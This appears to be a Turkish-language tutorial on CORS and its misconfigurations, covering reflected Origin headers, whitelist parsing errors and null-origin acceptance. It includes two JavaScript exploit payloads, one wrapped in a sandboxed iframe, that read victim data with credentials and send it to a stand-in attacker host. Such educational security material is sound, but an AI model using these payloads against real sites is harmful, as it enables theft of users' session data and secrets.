 # CORS nedir?
CORS, SOP kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır. Tarayıcılar bir web uygulamasının kendi origin'i dışındaki bir origin'e doğrudan istek göndermesini engeller. Ancak bu günümüzde oldukça fazla gerekli olur (örnek: Frontend: example.com, API: api.example.com)

# Origin nedir?
Bir origin şu 3 parçadan oluşur:

- Protokol: `http`, `https`
- Host: `example.com`
- Port: `80`, `443`

**Örnek:**  
![alt text](image.png)

# Preflight Request Nedir?
Tarayıcının CORS kuralları kapsamında asıl isteği göndermeden önce hedef sunucudan izin alıp almadığını kontrol etmek için yaptığı bir OPTIONS isteğidir. Sunucu bu isteğe uygun Access-Control-Allow-* header'larıyla cevap verirse tarayıcı asıl isteği gönderir aksi halde işlem engellenir.

# Origin Header’ı Yansıtarak Dinamik ACAO Üretimi
Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle gelen HTTP isteğindeki Origin header'ını okuyup bunu doğrudan yanıtta Access-Control-Allow-Origin header’ı olarak yansıtarak yapılır.

Aşağıdaki isteği ele alalım:
```http
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...  
```

Sunucu şu şekilde yanıt verirse:
```http
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...
```

Bu header’lar, isteğin geldiği domain olan malicious-website.com alanına erişim izni verildiğini, ayrıca çerez gibi kimlik doğrulama bilgileri içeren isteklerin de kabul edildiğini belirtir (Access-Control-Allow-Credentials: true). Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

Bu uygulama, Access-Control-Allow-Origin header’ında herhangi bir Origin değerini yansıtıyorsa, herhangi bir domain, hedef uygulamadan veri okuyabilir hale gelir. Eğer yanıt, bir API anahtarı, CSRF token’ı ya da benzeri hassas veri içeriyorsa, saldırgan bunu kendi web sitesine koyacağı şu JavaScript ile kolayca elde edebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Origin Header'larının Ayrıştırılmasında Hatalar
Bazı uygulamalar, birden fazla origin'e erişimi desteklemek için whitelist kullanır.

Örneğin uygulama aşağıdaki gibi istek alır:
```http
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com
```

Uygulama, gelen Origin değerini beyaz listedeki domain'lerle karşılaştırır ve eğer uygunsa aşağıdaki gibi yanıt verir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com
```

Ancak CORS whitelist mantığı uygulanırken sıkça hatalar yapılır. Bazı organizasyonlar, mevcut ve gelecekteki tüm alt domain’lere izin verecek şekilde yapılandırma yapar. Bu kurallar genellikle prefix, suffix veya regez ile tanımlanır. Bu yapılandırmanın yanlış uygulanması kontrol dışı domain'lere erişim izni verilmesine yol açabilir.

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek amacıyla null origin değerine izin verebilir:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Sunucu yanıtı aşağıdaki gibi verebilir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.

Aşağıdaki payload, bir data: URI’si içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Bu teknikle Origin: null ile yapılan istek, sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.

